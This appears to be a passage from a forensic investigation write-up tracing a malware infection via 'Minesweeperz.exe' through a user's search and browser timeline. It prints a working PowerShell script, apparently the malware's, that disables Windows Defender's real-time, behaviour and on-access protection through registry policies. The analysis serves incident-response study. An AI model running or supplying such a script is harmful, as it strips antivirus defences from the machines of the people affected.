 ```powershell
# Persist Windows Defender features settings in registry
$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}
New-ItemProperty -Path $path -Name "DisableAntiSpyware" -PropertyType DWord -Value 1 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "SubmitSamplesConsent" -PropertyType DWord -Value 2 -Force

$path = "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection"
if (!(Test-Path -Path $path)) {
    New-Item -Path $path -Force
}

New-ItemProperty -Path $path -Name "DisableRealtimeMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableBehaviorMonitoring" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableOnAccessProtection" -PropertyType DWord -Value 1 -Force
New-ItemProperty -Path $path -Name "DisableScanOnRealtimeEnable" -PropertyType DWord -Value 1 -Force
```
From the Windows Timeline Activity, we can track user interactions across various accounts. The key findings from the activity, relevant to our investigation, include:

1. **Search for Minesweeper and Downloads**:
   - **Search for "free minesweeper"** occurred at 4:23:19 AM on 14/10/2019. Craig's user profile is associated with these searches.
   - At 4:26:37 AM, the user accessed **minesweeperonline.com**. A similar search pattern continues with **freeminesweeper.org** at 4:27:09 AM.
   
2. **Edge Browser Activity**:
   - **Craig's activity** around these searches reveals a Google search for "free minesweeper" and interactions with several minesweeper-related websites.
   - The Microsoft Edge browser shows Craig had **active sessions with Google searches**, including the final focused activity on **free minesweeper**, which spanned until **4:46:45 AM** on 14/10/2019. The timeline matches the **Minesweeperz.exe** download timestamp and execution data from earlier.

3. **Minesweeperz Execution**:
   - At **4:25:37 AM**, **PowerShell** was launched (likely indicating command execution after downloading the file). This matches the first recorded **Prefetch** entry and the execution data.

These activities are tightly bound to the **Minesweeperz.exe** malware execution and the timeline for the potential infection. The search and browser interactions, followed by immediate execution, reflect a sequence likely indicating user intent to download and launch the infected file.

#### Next step:
We should now **analyze any related PowerShell commands** executed at 4:25:37 AM (UTC). We can check if Craig's account was used to run commands related to this download or launch of **Minesweeperz.exe**. Retrieving command history from event logs or related artifacts can reveal what actions were taken right after the download.
## DLL files flagged in VirusTotal
